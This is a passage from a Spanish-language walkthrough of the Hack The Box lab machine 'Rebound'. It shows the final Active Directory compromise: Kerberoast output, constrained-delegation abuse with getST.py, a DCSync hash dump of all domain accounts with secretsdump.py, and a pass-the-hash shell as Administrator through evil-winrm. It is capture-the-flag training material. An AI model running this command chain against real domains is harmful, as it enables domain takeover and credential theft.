[*] Kerberoast hash               : $krb5tgs$18$USER$REBOUND.HTB$*browser/dc01.rebound.htb*$3a66cdbd2c54bafe4a5dcf29$c4a32b35555ff0da905f6a34ccc02d5d0bd839e738c511a29ffd13ccb31c87e97d45c06295207865777bad751618f6ccffe3152d44f085f02bb1e07e61d2f8a99cef5671faba30e9cee053bce2fce0ca63661de5141516d27d459676898013e516fd50dcf375b35044d0d7f21afe50f54e35a85d97b0e9357919c655051d279f42cace43b0dca9aa7156cac050799d3c886dcd456077b1c8012d04fa6edc2b1b0dc745afd5852d2dfa514e65b9645b5344abb58140dd5aa1455ff55a6750ff5574f84cb72d06da2a739a62f667d03c3d44e8c68e2e26196229c7d2fc2342f38c4fd32304fb0fdca473323a6b2057558c97685a3019d14ec141a71eb27212ed99a9565520e95015394346b39773a97a903a90a074a7b3a408b0f4fed289378884408553851681f20dbbf2bf14b3d538d32084a0d522f34eaabb9e97bbb5b5a9472d3aaed37efad65f57b576f9589e0303d0a95999f13da7b51565f0845c16f5b5bb4667c09d93f141e85eb665752b7a573bbd95458ab474388469c3f8ac8d1bd8373f3f44b7d0ecfcfc23c76508479f0d641d4a05ce439ed9c4bb8f80502f3c66db7dba671ce85e61fb82cea1931831c0ec9e71e837a731326e46b27d4b901e524d6a2f8d48259b462b80bc850483e2e5c54268f1ed7baec99fd545c1837bb2646ecb445a600a1b9f2f271eb14615c4b72a05291f72dac7d8787e3c42e17532a0c7ad3d1bb2a8f84eb78d2091a3906552fdbecbd0d1dff151b5432410a9ee79b611eaab2f71350b696d6e94ed1a9c3d7c8996c6270d6ce61ef6153634a5676b850d01214ce7e34da8571957b7e1f830e8391609c535bb4e7f915be774a3b4a63ee7ca0105582b7f91c221115cfed53700f3d4fff44fdbf92f307cea6ec352b4bc81d171857f1154f15b1c5837a24937de45f25c6caf960d2e9ba725bc3799170a6c52fce1efd59a1c00c2d807f9667432c579fe6e3a2792b13063122c794875a84bffa6f4fb39dd8100d4611026628483dc855e9e6936ee07d03f451dea37a45d391c810f15d7c4d9eeb071beb516bbd35ce14b2179ccb0034109540a5a5d9c8c40d6a5a519c6224345a0231dc13252e250265e37babeeb31b5b0d5aba4da1af0189111be1d298f124d59b2ffb6f958c1f5ea186ca9b91e03e35f1e78484fcb4621a7ad99e10a7b9ac6762759f0f7fbd5009b3d0f26bdfea961ba2e25fff89d7c7f6daf05413a7dc7f16de0142c9f2d5d7bd61dfa33486037a3975ccff19c992defa8384222daba7c8634f9be34b6cb61451c2ab0315a926e0c5a676cb6d97f1eea4fb3e3f3580f4ecb0dde468f1f5a0a069956607086c621b65f7e45ded1f0ba9efcb8700cd91146c0d24cee6eb2d6b99533afcaefa71d21d73caefa1c0c94065284ffc8341520f7a5f69722d3aea7f25f5590eda1f921bea45252eb801fd309f55dab185dc7d0a4f2890e9b44341347fca491bbca35927f432bf9100f90685fb65f8a1cb65fb306ebca03d9beaa747219890a9bb9d055d4595949e3aaa33f48283925b924fc99461cdb0340d4aa488c6121150a56022cbcbbc7571a6ab8261a42de544ff49df53b8b5b123f0550de949a3992083697762382d1713bee5395a69d79734219733985edceaa4513a96a2ed8cd7bbc39c366ea692fa12e885f5c8f960e207f1242022f081458c95a3404d762d259ca3be3e3c5fb37592a51297bc5df77a3dd7fab1b5ba3240357bd8e21ffa264f8c300aa2e0993ec0ba1670a3be1f9a02296ae1afc368267e1514b0d4c712b4358411449f38b045b3c80524df30029
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : browser/dc01.rebound.htb
[*]   Service Realm               : REBOUND.HTB
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```
Podemos ver que este ticket es `forwardable`

Ahora podemos solicitar un Service Ticket impersonando a `DC01$` en DC01.
```shell
getST.py -spn 'http/dc01.rebound.htb' -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :11511b579e4ef2a33545e72b315590cf -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating DC01$
[*] 	Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/content/impacket]
└──╼ [★]$ export KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache'
```

## DCSync
Ahora con `secretsdump.py` podemos utilizar el ticket anterior para dumpear los hashes del DC.
```shell
secretsdump.py -k -just-dc-ntlm dc01.rebound.htb
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:176be138594933bb67db3b2572fc91b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1108b27a9ff61ed4139d1443fbcf664b:::
ppaul:1951:aad3b435b51404eeaad3b435b51404ee:7785a4172e31e908159b0904e1153ec0:::
llune:2952:aad3b435b51404eeaad3b435b51404ee:e283977e2cbffafc0d6a6bd2a50ea680:::
fflock:3382:aad3b435b51404eeaad3b435b51404ee:1fc1d0f9c5ada600903200bc308f7981:::
jjones:5277:aad3b435b51404eeaad3b435b51404ee:e1ca2a386be17d4a7f938721ece7fef7:::
mmalone:5569:aad3b435b51404eeaad3b435b51404ee:87becdfa676275415836f7e3871eefa3:::
nnoon:5680:aad3b435b51404eeaad3b435b51404ee:f9a5317b1011878fc527848b6282cd6e:::
ldap_monitor:7681:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
oorend:7682:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
winrm_svc:7684:aad3b435b51404eeaad3b435b51404ee:4469650fd892e98933b4536d2e86e512:::
batch_runner:7685:aad3b435b51404eeaad3b435b51404ee:d8a34636c7180c5851c19d3e865814e0:::
tbrady:7686:aad3b435b51404eeaad3b435b51404ee:114e76d0be2f60bd75dc160ab3607215:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:989c1783900ffcb85de8d5ca4430c70f:::
delegator$:7687:aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf:::
[*] Cleaning up...
```


Y para terminar con `evil-winrm` podemos hacer PassTheHash y conseguir una consola interactiva como `Administrator` en el DC.
```shell
evil-winrm -i dc01.rebound.htb -u Administrator -H 176be138594933bb67db3b2572fc91b8
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rebound\administrator
```

Podemos leer la flag de `root`
```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/21/2024   9:16 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
16d3b266b5583b66...
```

¡Y ya estaría!

Happy Hacking! 🚀